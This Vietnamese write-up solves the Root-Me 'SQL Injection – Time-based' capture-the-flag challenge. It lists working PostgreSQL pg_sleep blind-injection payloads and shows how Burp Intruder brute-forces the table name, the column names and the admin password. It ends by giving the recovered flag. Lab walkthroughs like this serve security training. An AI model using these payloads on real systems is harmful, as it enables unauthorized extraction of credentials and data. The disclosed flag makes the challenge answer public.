






# [SQL Injection – Time-based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

Về SQLi Time-based, đây là một loại SQLi Blind khi ta sử dụng thời gian res của req để dự đoán thông tin và BurpSuite sẽ hỗ trợ rất tốt về mảng này. Khi ta sử dụng một câu Query đúng, thời gian phản hồi sẽ chậm và ngược lại.

Trong website, ta có một tab là Memberlist, có query như sau:

*http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist&member=**\[x\]***

Ở đây, ta có thể lợi dụng để thực hiện tiêm payload vào đằng sau nó và thực hiện blind. Thử blind với payload bằng nhiều version() database khác nhau:

Payload: *3;select+case+when+(0=0)+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

Payload này sẽ khiến dtb res chậm hơn với pg\_sleep() khi query đúng.

-   Server thuộc dạng Postgresql: [pg\_sleep() - pgPedia - a PostgreSQL Encyclopedia](https://pgpedia.info/p/pg_sleep.html)

Từ đó, ta sẽ sử dụng Burp Intruder để thực hiện bruteforce table\_name, column\_name như các bài SQLi đã làm.

1.  **Tìm table\_name**

Trước tiên, ta cần tìm kiếm độ dài của table:

Payload: ***3;select+case+when+((select+length(table\_name)+from+information\_schema.tables+limit+1)=\[length\])+then+pg\_sleep(10)+else+pg\_sleep(-1)+end—***

Đưa vào Intruder và bruteforce:

Ở bảng kết quả, ta filter lại cột “Response Complete”. Res nào có độ lớn cao nhất thì chắc hẳn đó là payload đúng.

-   length(table\_name) == 5

Đã có table\_name, ta tiến hành bruteforce table\_name. Bỏ vào intruder:

*member=3;select+case+when+(substr((select+table\_name+from+information\_schema.tables+limit+1),**§1§**,1)=chr(**§§**))+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

Ghép lại ta được **table\_name=users**

1.  **Tìm column\_name**

Tương tự như table\_name, ta tìm length(column\_name) của cột đầu tiên:

Kết quả trả về payload length(column\_name) = 2. Ta có thể dự đoán nó có thể là ‘id’. Kiểm chứng bằng Repeater:

-   Ký tự ‘i’:

-   Ký tự ‘d’:

-   Cả 2 response đều tốn 2,285 miliseconds (tương tự thời gian fuzz, khác với response thông thường ~ 200 – 300 milisecond) column\[0\] == id

Để tìm được column tiếp theo, ta sử dụng offset để filter lại và thực hiện tương tự, bruteforce thôi:

-   length(column\[2\]) == 8

-   column\_name\[1\] = username

Column\[2\], có length == 9:

Bruteforce được kết quả column\_name\[2\] == firstname:

Tương tự, column\[3\] có length == 8, và dễ dàng đoán được:

-   column\_name\[3\] == lastname:

Column\[4\] có length == 5. Suy đoán và thử được kết quả:

-   column\_name\[4\] == email

column\[5\] có độ dài ký tự là length == 8:

Vì length ==8, ta thử kiểm chứng keyword = ‘password’ thì thấy trùng khớp:

Như vậy, ta đã tìm được đúng cột password, giờ thì tìm password của admin. Admin có id=1, ta chỉ cần tìm kiếm với offset = 0 là sẽ ra.

-   **length(password) == 13**

Sau hơn 1 ngày bruteforce với payload, ta được kết quả:

*member=3;select+case+when+(substr((select+password+from+users+limit+1+offset+0),**§§**,1)=chr(**§§**))+then+pg\_sleep(10)+else+pg\_sleep(-1)+end--*

Ta có được chuỗi ascii password: **84 33 109 51 66 64 115 51 68 83 81 76 33**

Convert to text: **T!m3B@s3DSQL!**

**Flag:** T!m3B@s3DSQL!

\- Flag:
